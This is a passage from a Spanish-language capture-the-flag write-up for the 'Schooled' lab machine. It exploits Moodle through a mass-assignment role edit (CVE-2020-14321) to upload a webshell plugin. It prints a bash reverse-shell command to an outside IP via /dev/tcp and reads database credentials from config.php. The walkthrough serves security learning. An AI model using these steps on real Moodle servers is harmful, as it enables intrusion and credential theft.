 Una de las formas de conseguir RCE en moodle es a partir del usuario administrador conseguir subir un plugin que, por supuesto, es vulnerable. Lo que pasa es que a pesar de ser la admin no tenemos la opción de subir plugins.  
Abajo del todo izquierda tenemos la nueva opción "Site Administrator". Si vamos al apartado Plugins no se ve la opción de subir plugin. Para solucionar esto vamos a aprovecharnos del tipo de ataque llamado **Mass Assigment Attack**, consiste en una asignación masiva de permisos, añadiremos campos y valores que no deberiamos saber y nos otorgan distintos privilegios, entre ellos el de subir plugins. Para ello nos iremos a una de las páginas nombradas antes; https://github.com/HoangKien1020/CVE-2020-14321 

En Users --> Permissions --> Define Role --> Manager --> Edit --> Y ahora interceptaremos la petición antes de dar a "Save" --> Save

Añadiremos el payload del github de HoanKien1020 y "Send" en el burp.  
Ahora si volvemos al apartado plugins podemos subir. Subiremos el que tenemos en el mismo repositorio, el rce.zip.

Una vez subido en la url metemos esta ruta con el comando que queramos, en mi caso para probar `id`:
```
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```
![RCE]({{ 'assets/img/writeups/Schooled/rce.png' | relative_url }}){: .center-image }

Y ahora cambio ese id por `bash -c "bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261"`

Y consigo entrar. Puede que tengas que volver a instalar el plugin porque lo borra automáticamente pasado un corto tiempo.

## Escalada de privilegios

Soy el usuario www:
```
whoami
www
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ 
```
Voy a echar unos directorios para atrás y revisar la ruta moodle para husmear archivos interesantes como alguno de configuración.
```
ls -l | grep conf
-rwxr-xr-x   1 www  www   55434 Jun 13  2020 config-dist.php
-rwxr-xr-x   1 www  www     758 Dec 19  2020 config.php
cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
```
Tenemos credenciales de acceso a la base de datos:  
UserDB: moodle
PasswordDB: PlaybookMaster2020
